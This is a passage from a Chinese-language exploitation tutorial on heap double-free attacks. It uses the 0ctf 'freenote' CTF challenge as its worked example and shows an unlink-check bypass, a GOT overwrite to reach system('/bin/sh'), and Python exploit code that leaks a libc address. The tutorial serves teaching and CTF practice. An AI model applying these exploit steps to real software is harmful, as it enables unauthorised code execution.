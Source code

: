 ```

[*] Switching to interactive mode
$ whoami
mzheng

```

0x03 堆漏洞利用之double free
=====

讲了那么多stack overflow的例子，我们现在换换口味，先从double free开始讲一下堆漏洞的利用。Double free的意思是一个已经被free的内存块又被free了第二次。正常情况下，如果double free，系统会检测出该内存块已经被free过了，不能被free第二次，程序会报错然后退出。但是如果我们精心构造一个假的内存块就可骗过系统的检测，然后得到内存地址任意写的权限。随后就可以修改got表将接下来会执行的函数替换成system()再将参数改为我们想要执行的指令，比如`"/bin/sh"`。最后就可以执行`system("/bin/sh")`了。

想要学习double free，首先要了解什么是free chunk和allocated chunk。这个在网上有大量的资料，请感兴趣的同学自学。

![picture_p13](http://drops.javaweb.org/uploads/images/7cf472de174a3352839973e0e80542665c4aa81e.jpg)

然后要了解Fast bin，Unsorted bin，Small bin和Large bin的概念。这个可以看这篇文章学习：

[https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/comment-page-1/](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/comment-page-1/)

除此之外还有个gdb工具可以帮助我们查看内存中堆的信息，这对我们调试程序会有很大的帮助:

[https://github.com/cloudburst/libheap](https://github.com/cloudburst/libheap)

等到对堆的基本概念了解的差多了就可以学习如何利用unlink来做到内存写了。在最早版本的unlink中对内存chunk是没有任何检测的，因此我们可以很容易的做到内存任意写。但现在版本的libc中会对free的那个chunk进行检测，这个chunk的前一个chunk的bk指针和这个chunk的后一个chunk的fd指针必须指向这个即将free的chunk才行。为了bypass这个检测，我们必须在内存中找到一个地址X指向P，然后将P的fd和bk指向X。最后再触发double free的unlink，就可以将P地址的值设置为X了。

![picture_p14](http://drops.javaweb.org/uploads/images/c74b1548ba1f817745ebe175a1890cca2def67ee.jpg)

我们这次使用0ctf中的freenote这道题来实践一下double free漏洞的利用。执行这个程序我能看到这其实就是一个note记事本程序。通过new note和delete note可以malloc()和free()内存。

```
$ ./freenote_x64 
== 0ops Free Note ==
1. List Note
2. New Note
3. Edit Note
4. Delete Note
5. Exit
====================

```

但是这个程序有两个漏洞，一个是建立新note的时候在note的结尾处没有加"\0"因此会造成堆或者栈的地址泄露，另一个问题就是在delete note的时候，并不会检测这个note是不是已经被删除过了，因此可以删除一个note两遍，造成double free。

首先我们要泄露libc和heap在内存中的地址。因为note的结尾没有"\0"，因此在输出时会把后面的内容打印出来。因为freelist的头部保存在了libc的.bss段，因此我们可以见通过删除两个note再删除一个note，然后再建立一个新note的方法来泄露出libc在内存中的地址：

```
notelen=0x80

new_note("A"*notelen)
new_note("B"*notelen)
delete_note(0)

new_note("\xb8")
list_note()
p.recvuntil("0. ")
leak = p.recvuntil("\n")

print leak[0:-1].encode('hex')
leaklibcaddr = u64(leak[0:-1].ljust(8, '\x00'))
print hex(leaklibcaddr)
```